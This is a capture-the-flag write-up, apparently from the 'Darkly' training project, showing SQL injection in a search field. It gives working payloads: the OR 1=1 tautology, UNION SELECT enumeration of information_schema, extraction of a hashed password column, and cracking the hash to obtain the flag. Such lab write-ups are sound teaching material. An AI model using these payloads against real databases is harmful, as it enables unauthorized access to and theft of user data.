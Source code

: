 # Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')

## Description

SQL Injection occurs when a web application constructs an SQL query using user-controlled inputs without properly sanitizing special characters. Attackers can manipulate the SQL syntax to execute arbitrary commands, retrieve sensitive information, or modify the database.

### Evidence of Vulnerability

In the `Darkly` application, the search bar on the `membre` page is vulnerable to SQL injection. Entering `'` in the search bar results in an SQL error, revealing the vulnerability. 

The query appears to retrieve a user's first and last name based on their ID:
```sql
SELECT first_name, surname FROM users WHERE user_id = 1
```

By injecting 1` OR 1=1 --`, attackers can retrieve all user records:
```sql
SELECT first_name, surname FROM users WHERE user_id = 1 OR 1=1 --
```
This reveals all users, including one named Flag with the last name GetThe. Further exploration using SQL injection techniques, such as UNION attacks, allows enumeration of the database schema and the extraction of sensitive information.

### Exploitation Steps

1. Identify Vulnerable Endpoint:
- Input `'` in the search bar to confirm the SQL injection vulnerability.

2. Dump All Users:
- Inject `1 OR 1=1 --` to retrieve all users.

3. Perform UNION Attack:
- Determine the number of columns:
```sql
1 UNION SELECT NULL,NULL--
```
- Enumerate database tables:
```sql
1 UNION SELECT table_name,NULL FROM information_schema.tables--
```
- Enumerate columns in the users table:
```sql
1 UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 0x7573657273
```
- Retrieve sensitive columns for the Flag user:
```sql
1 UNION SELECT Commentaire,countersign FROM users WHERE first_name = 0x466c6167 --
```

4. Crack the Hash:
- Use CrackStation to decode the MD5 hash in the countersign column.
- Hash the resulting string (fortytwo) with SHA-256 to retrieve the flag:
```bash
echo -n "fortytwo" | sha256sum
```